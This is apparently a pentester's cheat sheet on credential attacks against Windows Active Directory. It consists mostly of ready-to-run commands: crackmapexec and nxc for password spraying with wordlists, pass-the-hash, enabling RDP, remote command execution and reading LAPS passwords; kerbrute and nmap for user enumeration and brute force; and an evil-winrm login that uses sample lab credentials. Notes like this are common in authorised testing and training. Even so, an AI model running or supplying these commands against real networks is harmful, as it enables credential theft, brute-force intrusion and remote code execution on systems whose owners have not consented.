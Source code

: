 # Credentials

## **SMB**

crackmapexec smb targetip (port 135, 139 or 445)

### crackmapexec

{% code overflow="wrap" %}
```bash
crackmapexec smb <target_ip> -u <username> -p <password>
crackmapexec smb <target_ip> -u <username> -p <password> --shares
crackmapexec smb 192.168.1.1-100 <range IPs> -u <username> -p <password> --shares
crackmapexec smb <target_ip> -u userslist -p passwordlist --shares

crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol

# enable rdp
crackmapexec smb IP -u user -p pass -M rdp -o ACTION=enable
#spider_plus is a carackmapexec module used in the smb section to copy all files paths into a json file
crackmapexec smb <target_ip> -u <username> -p <password> -M spider_plus
#to show content 
crackmapexec smb 192.168.1.50 -d wargrey.mon -u Administrator -p h3ckt0r -x “more filepath”

crackmapexec smb 10.10.144.122 -u users -p /usr/share/wordlists/rockyou.txt --continue

```
{% endcode %}

## **LDAP**

```bash
#Testing if account exist without kerberos protocol
crackmapexec ldap 192.168.1.0/24 -u users.txt -p '' -k
#Testing credentials
crackmapexec ldap 192.168.1.0/24 -u user -p password
crackmapexec ldap 192.168.1.0/24 -u user -H A29F7623FD11550DEF0192DE9246F46B
#Identify Trust Relationships And Direction
crackmapexec ldap <ip> -u user -p pass -M enum_trusts

```

## WINRAM or Use  nxc

{% code overflow="wrap" %}
```bash
#Identify Trust Relationships And Direction
crackmapexec ldap <ip> -u user -p pass -M enum_trusts
#Password spraying (without brute force)
crackmapexec winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

#Testing credentials
crackmapexec winrm 192.168.1.0/24 -u user -p password

#If the SMB port is closed you can also use the flag -d DOMAIN to avoid an SMB connection
crackmapexec winrm 192.168.1.0/24 -u user -p password -d DOMAIN
#Execute Command using WinRM
crackmapexec winrm 192.168.255.131 -u user -p 'password' -X whoami
#if we meet server 2012 or less, maybe the server has a local administrator with the password you can use  --laps refer to  local administrator password solution
crackmapexec winrm <ip> -u user-can-read-laps -p pass --laps
```
{% endcode %}

```bash
nxc winrm 10.10.175.105 -u 'j.rock' -p 'Serviceworks1'
nxc smb 10.10.175.105 -u 'j.rock' -p 'Serviceworks1'
```

### Nmap&#x20;

{% code overflow="wrap" %}
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
```
{% endcode %}

{% hint style="info" %}
if we don't join in Domain >> use nslookup
{% endhint %}

### nslookup

{% code overflow="wrap" %}
```bash
nslookup <ip you want> <ip DNS>
#we can use this script to extract data as Like Name (computer name or Client) and (ip)
for /L %i in (1,1,255) do @nslookup 192.168.1.%i <ip DNS> 2>null | find "Name" && echo 192.168.1.%i
```
{% endcode %}

### enum4linux

```bash
enum4linux -a -u "user" -p "password" <DC IP>
```

{% code overflow="wrap" %}
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases
./kerbrute_linux_amd64 -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>

```
{% endcode %}

### smbmap

### Find Domain Controller IP

```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.deathstar.rfs
```

### evil-Winrm

```
evil-winrm -u j.rock@services.local -p Serviceworks1 --ip 10.10.175.105
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
